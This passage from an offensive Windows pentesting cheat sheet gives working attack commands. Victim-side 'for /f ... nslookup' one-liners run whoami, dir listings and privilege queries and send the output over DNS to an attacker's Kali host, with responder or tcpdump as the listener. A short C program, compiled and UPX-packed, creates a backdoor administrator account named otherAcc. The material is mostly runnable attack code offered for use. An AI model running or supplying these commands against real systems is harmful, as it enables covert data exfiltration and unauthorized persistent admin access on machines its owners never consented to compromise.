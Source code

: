 ### Listen address ACLs

You can listen on [http://+:80/Temporary\_Listen\_Addresses/](http://+/Temporary\_Listen\_Addresses/) without being administrator.

```bash
netsh http show urlacl
```

### Manual DNS shell

**Attacker** (Kali) must use one of these 2 options:

```bash
sudo responder -I <iface> #Active
sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> #Passive
```

#### Victim

**`for /f tokens`** technique: This allows us to execute commands, get the first X words of each line and send it through DNS to our server

```bash
for /f %a in ('whoami') do nslookup %a <IP_kali> #Get whoami
for /f "tokens=2" %a in ('echo word1 word2') do nslookup %a <IP_kali> #Get word2
for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c <IP_kali> #List folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c <IP_kali> #List that folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c <IP_kali> #Same as last one
#More complex commands
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali> #Same as last one
```

You can also **redirect** the output, and then **read** it.

```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txt
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali>
```

## Calling CMD from C code

```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */

// When executed by Administrator this program will create a user and then add him to the administrators group
// i686-w64-mingw32-gcc addmin.c -o addmin.exe
// upx -9 addmin.exe

int main (){
    int i;
    i=system("net users otherAcc 0TherAcc! /add");
    i=system("net localgroup administrators otherAcc /add");
    return 0;
}
```
